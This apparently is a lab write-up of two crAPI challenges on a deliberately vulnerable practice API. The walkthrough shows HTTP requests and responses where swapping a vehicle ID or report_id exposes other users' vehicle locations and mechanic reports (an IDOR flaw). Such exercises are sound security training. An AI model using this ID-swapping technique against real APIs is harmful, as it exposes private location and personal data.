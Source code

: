 * Find an API endpoint that receives a vehicle ID and returns information about it.

```http
GET /identity/api/v2/vehicle/79511fa6-aa61-4985-b659-044446de8cd6/location HTTP/1.1
Host: crapi.apisec.ai
```

```json
{"carId":"79511fa6-aa61-4985-b659-044446de8cd6","vehicleLocation":{"id":6,"latitude":"31.9726318","longitude":"34.7958503"},"fullName":"hadil"}

```


replace your carId number in the URL,  with that of another user, and now you have another user's location & vehicle info

### [ ] Challenge 2 - Access mechanic reports of other users

crAPI allows vehicle owners to contact their mechanics by submitting a "contact mechanic" form. This challenge is about accessing mechanic reports that were submitted by other users.

* Analyze the report submission process

* Find an hidden API endpoint that exposes details of a mechanic report

* Change the report ID to access other reports

<br>

**The report submission**
```http
 POST /workshop/api/merchant/contact_mechanic HTTP/1.1
Host: crapi.apisec.ai

{
  "mechanic_code": "TRAC_JME",
  "problem_details": "Also, when I bought this car, it smelled like a dirty sock. Pls fix",
  "vin": "6CZTY05UVQT584223",
  "mechanic_api": "http://crapi.apisec.ai/workshop/api/mechanic/receive_report",
  "repeat_request_if_failed": false,
  "number_of_repeats": 1
}

```
<br>

Resp
```json
{"response_from_mechanic_api":{"id":75,"sent":true,"report_link":"http://crapi.apisec.ai/workshop/api/mechanic/mechanic_report?report_id=75"},"status":200}
```
<br>

The hidden endpoint you need to access is displayed in the response, you will need to create a custom request. and access a `report_id` other than your own.
